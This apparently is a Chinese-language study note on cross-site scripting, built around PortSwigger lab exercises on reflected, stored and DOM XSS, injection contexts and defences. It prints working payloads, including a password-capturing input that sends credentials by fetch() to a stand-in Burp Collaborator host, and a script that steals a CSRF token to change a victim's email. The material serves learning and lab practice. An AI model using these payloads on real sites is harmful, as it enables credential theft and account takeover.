

[TOC]


# 1.XSS分类

## 反射型XSS

### 原理

应用场景举例：在常见的搜索框界面，一般我们输入搜索内容，搜索关键词传入后端，后端经过一系列的操作（比如数据库查询等），将搜索结果返回到前端页面进行展示，同时有些页面也会将关键词进行显示。

#### 靶场实例

[Lab: Reflected XSS into HTML context with nothing encoded](https://portswigger.net/web-security/cross-site-scripting/reflected/lab-html-context-nothing-encoded)

打开靶场，其中有**搜索框**，向搜索框内随意输入内容，然后搜索结果页面如图所示。

输入搜索条件后的url为`https://web-ID.web-security-academy.net/?search=test`


因此可以看出，页面即是将搜索关键字拼接在search results for后面，这里我们可以尝试XSS的常见payload，`<script>alert(1)</script>`，发现成功弹框。


### 如何查找反射型XSS漏洞

1. 首先确定入口点，即可以输入数据的任何输入框、参数值等等
2. 提交随机字母数字值，为了定位出现在响应页面的哪些位置
3. 确定随机字母在响应页面出现的上下文
4. 根据上下文选取有效载荷进行测试
5. 若有效载荷被过滤或拦截，再选取其他有效载荷进行测试
6. 在浏览器中测试攻击

## 存储型XSS

### 原理

应用场景举例：对于一些博客页面，可以发表评论等等，当提交评论时，会将评论存储到后端数据库，而后面当任何人打开该博客页面时，因为页面的默认逻辑是会加载所有的评论进行显示，因此也会显示我们的评论。

#### 靶场实例

[Lab: Stored XSS into HTML context with nothing encoded](https://portswigger.net/web-security/cross-site-scripting/stored/lab-html-context-nothing-encoded)

打开靶场，没有搜索框，但点开具体的博客可以进行**评论**，且评论内容会再显示到页面上进行展示。

这里由于评论提交后，是存储在数据库中，以后当其他人再点开该篇博客时，都会加载该评论，每一次都会执行该js语句，这就是存储型XSS。


### 如何查找存储型XSS漏洞

1. 入口点，多为评论区等，用户输入的内容会存储到数据库中
2. 剩下与反射型的思路大致相同

## DOM型XSS

### 原理

应用场景：页面中包含的js代码，通过window.location属性值读取URL中的一些参数值，然后再利用document.write等函数修改页面的DOM结构，增加一个标签内容，或者利用`element.innerHTML`修改标签的内容。

> document.write
>
> innerHTML：浏览器对源代码的解析是从上到下进行，执行innerHTML对内容进行修改后，浏览器不会再解析执行。但可以利用\触发执行

#### 靶场实例1：基于document.write

[Lab: DOM XSS in `document.write` sink using source `location.search`](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink)

向搜索框内随便输入字符串`test`，然后F12查看源码查看发现一段js代码，这段代码获取search的内容，并将其拼接到标签的src属性值后，因为没有做任何的过滤，所以我们可以考虑输入一些恶意的内容，先将img标签内容闭合，然后加上script脚本语句。


输入的payload为`"><script>alert(1)</script>`，此时源码变为：



> window.location.search：用于设置或获取当前URL的问号?之后的部分，也就是传输的参数内容
>
> up=URLSearchParams(window.location.search)：用于方便处理URL的查询字符串，返回一个类似于字典的结构，键为url中的参数名，键值为参数值。eg:{"search":"1111"}
>
> 可用方法：
>
> - up.get('参数名')
> - up.getAll('')
> - up.forEach()

#### 靶场实例2：基于innerHTML

[Lab: DOM XSS in `innerHTML` sink using source `location.search`](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-innerhtml-sink)

对搜索框内输入`test`，F12查看源码，其中有一段js代码，通过获取search的参数值，利用innerHTML修改标签的文本内容。


利用innerHTML修改的页面内容，并不会触发浏览器执行js代码

可以使用img、iframe标签，结合onerror事件触发js代码。


#### 靶场实例3：基于JQuery修改属性值

[Lab: DOM XSS in jQuery anchor `href` attribute sink using `location.search` source](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-href-attribute-sink)

这里可以看出，图中js的语法格式为JQuery的语法格式，然后主要逻辑为通过获取returnPath参数值，将其修改为a标签的href属性值。

href属性值为有效的相对或绝对路径，也可以为javascrip代码段。

所以这里将returnPath值修改为`javascript:alert(1)`，点击Back，即可触发js代码。


#### 靶场实例4：利用JQuery的hashchange事件

[Lab: DOM XSS in jQuery selector sink using a hashchange event](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-selector-hash-change-event)

window.hash 表示URL的锚部分，即#后面的内容

hashchange 当锚的内容发生改变时触发的事件，jQuery可以通过监听该事件的发生来执行一些操作

```javascript
$(window).on('hashchange', function() { //当url中#后面的内容发生改变时即触发该事件
	var element = $(location.hash); // $() 创建一个元素选择器
	element[0].scrollIntoView();
});
```

常规先观察页面有没有可以输入的地方，发现只有博客页可以提交评论内容，测试payload之后，发现后端会将<>进行HTML编码，因此无法触发执行。

然后进一步查看首页源码，查看其中的script代码片段，发现如下内容，js代码直接提取url中#后的内容，构建元素选择器，但并未对提取的内容进行过滤。


靶场提供了攻击靶场，利用攻击靶场向其中注入iframe标签，并设置加载时修改#值，则会触发上面的代码。

`<iframe src="https://YOUR-LAB-ID.web-security-academy.net/#" onload="this.src+=''"></iframe>`

这段payload则是再iframe加载到页面中时，即执行onload后面的内容，而onload则是将src值增加了一个标签。

### 如何查找DOM型XSS漏洞

1. 确定数据来源，一般是url中的参数值，利用window.location访问值
2. 确定接收器，也就是被修改内容的地方，网页中的js有纯js代码，还有一些第三方库和框架，比如JQuery、AngularJS等，这些都提供对某些属性值进行修改，但同时也存在一些特性。
   - js
   - jQuery函数
   - AngularJS

总结三种类型：

| XSS类型  |                            存储型                            | 反射型                       | DOM型                        |
| -------- | :----------------------------------------------------------: | ---------------------------- | ---------------------------- |
| 触发过程 | 1.黑客构造XSS脚本，并提交存储到数据库 2.正常用户访问携带XSS脚本的页面 | 正常用户访问携带XSS脚本的URL | 正常用户访问携带XSS脚本的URL |
| 数据存储 |                            数据库                            | URL                          | URL                          |
| 谁来输出 |                       后端Web应用程序                        | 后端Web应用程序              | 前端Js                       |
| 输出位置 |                          HTTP响应中                          | HTTP响应中                   | 动态构造的DOM节点            |

# 2.XSS常见上下文以及防御方式
## 上下文环境

### HTML标签

即输出位置为**HTML标签之间的文本内容**，则可以引入一些能触发javascript代码的新HTML标签。

例如：

```javascript
<script>alert(document.domain)</script>

```

### 标签属性值

即输出位置为**标签的各种属性值位置**，例如href属性值等，则可以通过闭合属性值和标签并引入新标签来触发js，或者可以直接闭合属性值但增加容易触发的属性js值。

eg：

```javascript
"><script>alert(document.domain)</script>   
" autofocus onfocus=alert(document.domain) x="  //适合于尖括号被过滤或编码的情况
```

### js代码

即输出位置为js代码段内部，可以通过终止现有脚本然后增加新标签，或者通过闭合js字符串增加新js代码。

eg：

```javascript
</script>
'-alert(document.domain)-'
';alert(document.domain)//
```

### js模板中的XSS

js模板字符串：使用反引号来定义的一串字符，其中用${占位符}来固定参数值输入的位置

若占位符位置中输入，js代码，则会直接被执行

eg：

```javascript
document.getElementById('message').innerText = `Welcome, ${user.displayName}.`;
${alert(document.domain)}
```

## 防御方式及绕过
- 过滤不安全的标签和属性
  - 可以通过对使用不同的标签和属性进行探测，确定允许输入的标签
- 字符转义：对于' " 等字符添加反斜杠\进行转移
  - 使用HTML编码值来替换特殊字符
- HTML编码
  - 对属性值进行注入
- CSP策略

# 2.XSS作用和危害

## 窃取cookie

利用XSS漏洞将cookie发送到攻击方，然后手动注入cookie冒充受害者进行各类操作

局限性：

- 受害者可能没有登录
- HttpOnly属性，导致无法利用js读取cookie
- 会话可能与用户的其他属性绑定，比如用户IP等
- 会话可能超时

结合使用burp的collaborator模块使用


## 获取密码

读取密码管理器中存储的用户名和密码

局限性：

- 仅适用于拥有密码自动填充的密码管理器
- 也可以通过网络钓鱼的方式来获取密码

```html
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```


## 结合csrf攻击

XSS漏洞-->可以任意执行一段代码，只要是利用js可以实现的代码都可以

CSRF-->服务端对动作执行的来源没有经过严谨的验证，也就是不确定是用户真实已知的操作

这里虽然利用页面中的token来防止csrf，但利用js的request对应页面，然后提取其中的token作为参数即可

```javascript
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```


# 3.如何防御以及如何绕过
1. 对所有输入进行过滤

   1. 
2. 对所有输出进行编码

   1. 根据输出的上下文，选择相应编码方式（HTML、URL、JS、CSS）
3. 使用恰当的响应标头

   1. `Content-Type`和`X-Content-Type-Options`确保响应内容不包含XSS
   
4. 内容安全策略（CSP）
   1. 


# 附录

靶场列表

- 反射型
  - [Lab: Reflected XSS into HTML context with nothing encoded](https://portswigger.net/web-security/cross-site-scripting/reflected/lab-html-context-nothing-encoded)
    - 概念实例，**搜索框**输入的内容，然后直接显示在<p>标签内
    - 增加新的HTML标签
    
  - [Reflected XSS into attribute with angle brackets HTML-encoded](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-attribute-angle-brackets-html-encoded)
  
  - [Reflected XSS into a JavaScript string with angle brackets HTML encoded](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-html-encoded)
  
  - [Reflected XSS into HTML context with most tags and attributes blocked](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-most-tags-and-attributes-blocked)
  
  - [Reflected XSS into HTML context with all tags blocked except custom ones](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-all-standard-tags-blocked)
  
  - [Reflected XSS with some SVG markup allowed](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-some-svg-markup-allowed)
  
  - [Reflected XSS in canonical link tag](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-canonical-link-tag)
  
  - [Reflected XSS into a JavaScript string with single quote and backslash escaped](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-single-quote-backslash-escaped)
  
  - [Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-double-quotes-encoded-single-quotes-escaped)
  
  - [Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-template-literal-angle-brackets-single-double-quotes-backslash-backticks-escaped)
  
  - [Reflected XSS with event handlers and `href` attributes blocked](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-event-handlers-and-href-attributes-blocked)
  
  - [Reflected XSS in a JavaScript URL with some characters blocked](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-url-some-characters-blocked)
  
  - [Reflected XSS in a JavaScript URL with some characters blocked](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-url-some-characters-blocked)
  
    
  
- 存储型
  - [Lab: Stored XSS into HTML context with nothing encoded](https://portswigger.net/web-security/cross-site-scripting/stored/lab-html-context-nothing-encoded)
    - 概念实例，**评论内容**先提交到数据库中存储，然后返回显示在博客内容中，<p>标签
  - [Stored XSS into anchor `href` attribute with double quotes HTML-encoded](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-href-attribute-double-quotes-html-encoded)
  - [Stored DOM XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-dom-xss-stored)
  - [Stored XSS into `onclick` event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-onclick-event-angle-brackets-double-quotes-html-encoded-single-quotes-backslash-escaped)
    - 单引号、反斜杠被转义，尖括号、双引号被HTML编码
  
- DOM型
  - 简单实例1：[Lab: DOM XSS in `document.write` sink using source `location.search`](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink)
    - 获取location.search的内容，并利用document.write将获取的内容设置为新增标签的属性值。
  - 简单实例2：[Lab: DOM XSS in `innerHTML` sink using source `location.search`](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-innerhtml-sink)
    - 获取location.search的内容，然后利用element.innerHTML修改标签的文本内容为获取的内容值
    - element.innerHTML对于插入的script脚本不会触发执行，但可以使用img、iframe标签
  - 简单实例3：[Lab: DOM XSS in jQuery anchor `href` attribute sink using `location.search` source](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-href-attribute-sink)
    - 结合JQuery，修改href属性值
  - 简单实例4：[Lab: DOM XSS in jQuery selector sink using a hashchange event](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-selector-hash-change-event)
    - 利用location.hash属性值，修改JQuery选择函数
  - [Reflected DOM XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-dom-xss-reflected)
  
- 利用XSS
  - 窃取cookie
    - [Exploiting cross-site scripting to steal cookies](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies)
  - 窃取用户名密码
    - [Exploiting cross-site scripting to capture passwords](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-capturing-passwords)
  - 结合csrf攻击
    - [Exploiting XSS to perform CSRF](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-perform-csrf)
  
- CSP防御绕过

  - [Reflected XSS with AngularJS sandbox escape and CSP](https://portswigger.net/web-security/cross-site-scripting/contexts/angularjs-sandbox/lab-angular-sandbox-escape-and-csp)

  - [Reflected XSS protected by very strict CSP, with dangling markup attack](https://portswigger.net/web-security/cross-site-scripting/content-security-policy/lab-very-strict-csp-with-dangling-markup-attack)

  - [Reflected XSS protected by CSP, with CSP bypass](https://portswigger.net/web-security/cross-site-scripting/content-security-policy/lab-csp-bypass)

    

